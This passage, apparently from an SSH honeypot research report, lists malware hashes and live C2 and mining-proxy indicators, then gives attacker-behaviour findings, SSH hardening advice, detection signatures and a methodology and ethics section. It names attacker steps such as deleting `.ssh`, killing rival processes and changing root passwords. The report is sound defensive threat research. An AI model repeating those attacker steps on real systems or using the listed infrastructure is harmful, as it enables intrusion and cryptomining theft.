| `/linux` | generic (packed, rootkit) | 34/62 | [report](https://www.virustotal.com/gui/file/a505de0af54408dcde2f869608398a409908543a43fad15397a342b2200f8a52) | [sample](https://bazaar.abuse.ch/sample/a505de0af54408dcde2f869608398a409908543a43fad15397a342b2200f8a52/) | [1](https://urlhaus.abuse.ch/url/3552086/) (+6) |
| `zed` (66.116.243.130) | Shellbot | 33/61 | [report](https://www.virustotal.com/gui/file/8fe5062ab1da959b65b80fdd0da5e6b973247ba273c694d428edf2f6ec805aa4) | — | [1](https://urlhaus.abuse.ch/url/3928264/) |
| Diicot `.bia` | shell downloader | 16/61 | [report](https://www.virustotal.com/gui/file/df3b308b62e63f71f2d8e46931380fd9bfce0eec3c37300ae4833aafc7e7dfa9) | [sample](https://bazaar.abuse.ch/sample/df3b308b62e63f71f2d8e46931380fd9bfce0eec3c37300ae4833aafc7e7dfa9/) | [1](https://urlhaus.abuse.ch/url/3928263/) |
| Diicot `.dcplm` | shell downloader | 30/61 | [report](https://www.virustotal.com/gui/file/87cac5b8ac2e5e6b48ecc5ab5dc6c1c47b00fdbe2c12effd922a4a3e600bd55e) | [sample](https://bazaar.abuse.ch/sample/87cac5b8ac2e5e6b48ecc5ab5dc6c1c47b00fdbe2c12effd922a4a3e600bd55e/) | [1](https://urlhaus.abuse.ch/url/3928344/) |
| 64.89.161.144 | XMRig (VirusTotal label: generic) | 22/61 | [report](https://www.virustotal.com/gui/file/712737cdde50fcce895f263ea18ed7f8e425dcb72f8ec63101ea0361c6602140) | [sample](https://bazaar.abuse.ch/sample/712737cdde50fcce895f263ea18ed7f8e425dcb72f8ec63101ea0361c6602140/) | [1](https://urlhaus.abuse.ch/url/3793559/) |

On the infrastructure side, ThreatFox lists `151.241.154.172` as a [Remcos command-and-control server](https://threatfox.abuse.ch/ioc/1846048/), and `45.153.34.212` as an [XMRig command-and-control server](https://threatfox.abuse.ch/ioc/1834524/), an [XMRig mining proxy](https://threatfox.abuse.ch/ioc/1815853/) and a [Mirai distribution point](https://threatfox.abuse.ch/ioc/1820025/).

New indicators, seen in the sandboxes or in the `zed` script, and absent from the abuse.ch databases as of 4 October:

| Indicator | Role |
|---|---|
| `103.114.163.234:22` | Shellbot IRC server (`zed`) |
| `91.108.243.251:3337` | most likely the Diicot mining proxy |
| `web.2k5u.ru`, `198.251.81.61:2070` | Kaiji command and control |
| `else.u27v.me`, `web.yk4s.com` | BillGates command and control |
| `big.auc5.com`, `45.129.230.254:60137`, `85.209.176.174:60137` | SSH scanner reporting |

### What it tells us

Every identified payload is either a **miner** (XMRig, installed by Diicot or the randomized-path dropper), a **DDoS bot** (BillGates, Kaiji, the UDP flood of Shellbot, Mirai), or a **tool to spread further** (the SSH scanner). Most of them settle in for the long run — fake system services, trojanized `ps` and `netstat`, hidden directories — and two campaigns lock the door behind them (Diicot replaces the SSH keys; Outlaw changes the root password in 632 of the 635 connections that do so). **None of the identified payloads steals data.** It is the same conclusion as the recon commands, reached from the other end: the target is the machine's CPU and bandwidth, not its content.

---

## Takeaways

**On what attackers actually do.**

1. **Password brute-forcing was the only access vector observed.** Zero vulnerability exploitation across 530,860 attempts, and no attempt to *guess* a public key. SSH's real attack surface is not the protocol, it is your passwords.
2. **Much of the access is not exploited immediately.** 40% of successful logins run no command at all. The market is segmented: some validate credentials, others buy and exploit them.
3. **The goal is almost always resource theft.** The recon block is entirely focused on CPU, RAM, and disk. Data hunting exists but is marginal — 29 connections — and it targets credentials and pivots (password hashes, histories, `known_hosts`) more than content. That rarity is partly a bias of this setup: see [Blind spots](#blind-spots).
4. **Competition between botnets is fierce.** `pkill`, wiping `/etc/hosts.deny`, deleting rival files, changing the root password to lock everyone else out.
5. **Anti-forensics is essentially nonexistent.** 2.6% of connections that run commands cover their tracks. Your logs hold the truth, if you read them.

**On what to do about it.**

- **Disable password authentication.** `PasswordAuthentication no` and `PubkeyAuthentication yes`. That neutralizes 100% of what I observed over five months.
- **Forbid direct root login.** `PermitRootLogin no` — `root` accounts for 78.6% of attempts.
- **Do not rely on changing the port.** 3,600 attempts per day on port 2222 — admittedly the most predictable alternative.
- **Alert on the obvious signatures.** The `mdrfckr` key in an `authorized_keys`, the `345gs5662d34` username, a `libssh` client banner: three detection rules with virtually no false positives.
- **Monitor `authorized_keys` for integrity**, not just permissions. The attack starts with `rm -rf .ssh`, and a plain `chattr +i` is already anticipated.
- **Blocking `wget` and `curl` is not enough.** Payloads also travel straight down the SSH channel.

**On building a honeypot.**

The microVM architecture costs more than an emulated shell, both in development and in resources. But it passes the attackers' own detection checks — `ls -lh $(which ls)` is the proof — and it lets you sleep at night, because the absence of a network in the VM is not a filtering rule that can be bypassed, it is the absence of hardware.

The constraint that drives everything is boot time. A shell served in a median of 39 ms is indistinguishable from a real server; the same shell served in two seconds gives the trap away before the first command. That is what forces the `microvm` machine type rather than a conventional VM, and the three-level qcow2 chain rather than an image copy. Every other architectural decision follows from that budget of a few tens of milliseconds.

And per-attacker persistence via qcow2 overlays is what gives this data its depth: being able to watch the same `kswpad` operator return to *their* machine over four months is something a stateless honeypot will never produce.

---

## Blind spots

The architecture that makes this honeypot safe also shapes what it can see. Five biases are worth stating plainly.

**The password is tied to the IP.** In a two-tier market, one bot validates the credential and another actor, from another IP, uses it. Here that second actor gets a different assigned password (nine chances in ten that the purchased credential fails), and even if they get in, they land on a fresh VM without the first actor's changes. I therefore capture the first link of the chain far better than the second — and the second is the one most likely to go after data.

**No network, no second stage.** Secret hunting (cloud keys, `.env` files, wallets) is often done by scripts downloaded in a second stage. Those downloads fail here, so that stage never runs. The same choice means I have the payload URLs, not the binaries: what they actually do is only known from third-party sandboxes — see [Following the payloads](#following-the-payloads).

**The VM looks worthless.** 256 MB of RAM, a tiny disk, no service actually running. The automated recon block rates it as poor and moves on before a human ever looks.

**Key authentication is disabled.** The honeypot refuses every public key. So I can see who offers one, but not what would have happened had the server accepted keys: an attacker who leads with a key falls straight back to passwords. And the server logs only the fingerprint, not the key, which rules out any comparison against known compromised-key corpora.

**Port 2222 is not exotic.** Whether scanners really try every port, or only 22 and the usual alternatives, is beyond the reach of this setup. Answering it calls for a different sensor: listening on many ports — or all of them — and logging every connection, every port touched, and every probe scanners send to identify the service. That is a project of its own.

---

## Methodology and ethics

- **Data**: the honeypot's SQLite database, 2026-04-28 to 2026-09-21. Commands were reconstructed from the input (`"i"`) streams of the asciinema v2 recordings, not from shell history — so nothing escapes via `history -c`.
- **Connections**: the database stores one row per SSH channel ("session"), with no connection identifier. Connections were reconstructed by attaching each session to the preceding successful login from the same IP. Per-connection figures use the same data snapshot as the authentication figures (21 September, 11:35 UTC) and reproduce its totals exactly: 1,656 successful logins, 12,939 sessions. Sessions are attached to the most recent successful login from the same IP. When several logins share the same second, their sessions cannot be split: this concerns 5 cases, chiefly one IP that opened 32 connections within one second on 11 June and ran 79 commands in 4 seconds. Each case counts as one connection; the repeated commands suggest that 4 to 6 of those 32 actually ran something, so connection counts may be low by a handful.
- **Geolocation**: MaxMind GeoLite2-Country database, queried **locally**. No IP address was sent to any third-party service.
- **Payloads**: during the study, no binary or script was downloaded, dynamically analyzed, or executed. The microVM has no network interface; every download attempt failed at the socket layer. The published URLs come exclusively from reading keystrokes. On 2026-10-03, the URLs and distribution hosts were looked up in the abuse.ch databases (URLhaus, ThreatFox, MalwareBazaar); on 2026-10-04, the payload hashes were looked up on VirusTotal, along with the behaviour reports of its sandboxes, and the two payloads still online were downloaded into a read-only quarantine to check their hashes — never executed; the Perl script was read as text. These lookups are the only data sent to a third party, and they consist of indicators already published here.
- **Privacy**: the IP addresses published are those of machines that actively attacked a third-party system, and those of malware distribution infrastructure. They are released as indicators of compromise.
- **Attribution**: none. IP geolocation describes the location of infrastructure, not the identity or nationality of an operator.
